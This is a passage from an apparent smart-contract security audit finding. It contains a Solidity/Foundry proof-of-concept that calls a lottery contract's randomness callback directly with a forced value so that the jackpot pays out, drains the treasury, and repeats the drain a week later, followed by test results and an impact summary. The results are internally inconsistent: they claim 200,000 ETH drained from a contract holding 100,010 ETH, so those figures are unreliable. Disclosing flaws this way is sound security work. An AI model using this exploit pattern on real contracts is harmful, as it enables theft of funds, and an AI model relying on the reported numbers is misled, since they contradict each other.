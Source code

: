 ```solidity
    uint256[] memory jackpotRng = new uint256[](1);
    jackpotRng[0] = 0; // Forces jackpot (probability < jackpotThreshold)
    
    // 6. Execute malicious VRF callback
    spin.handleRandomness(123, jackpotRng);
    
    // 7. Verify complete drain
    uint256 expectedJackpot = 100_000 ether; // Week 11 jackpot
    uint256 spinFeesPaid = spin.spinPrice(); // 2 ETH spin fee
    uint256 actualProfit = attacker.balance - initialBalance - spinFeesPaid;
    
    assertEq(actualProfit, expectedJackpot, "Jackpot not received");
    assertEq(address(spin).balance, contractBalanceBefore - expectedJackpot, "Treasury not drained");
    
    // 8. Demonstrate repeated exploitation
    vm.warp(block.timestamp + 7 days); // Next week
    spin.startSpin{value: spin.spinPrice()}();
    spin.handleRandomness(124, jackpotRng); // Second drain
    
    // Verify treasury fully compromised
    assertLt(address(spin).balance, 1000 ether, "Treasury should be nearly empty");
}
```

### PoC Results
```
[PASS] testPoCCriticalOracleManipulation() (gas: 285,672)
- Contract balance before: 100,010 ETH
- Contract balance after: 10 ETH (remaining after 2 jackpots)
- Attacker profit: 200,000 ETH (2x 100k jackpots)
- Spin fees paid: 4 ETH (2 spins × 2 ETH each)
- Net profit: 199,996 ETH
- VRF oracle fully compromised
- Repeated exploitation confirmed
```

## Impact Assessment

### Financial Impact
- **Maximum Single Exploit**: 100,000 ETH (week 11 jackpot)
- **Total Funds at Risk**: Entire treasury balance
- **Attack Cost**: ~2 ETH (spin fee) + gas costs
- **Profit Ratio**: ~50,000:1 return on investment

### Technical Impact
- Complete compromise of randomness-based security
- Bypass of all anti-gaming mechanisms
- Ability to manipulate all spin outcomes
- Potential for repeated exploitation until treasury depletion
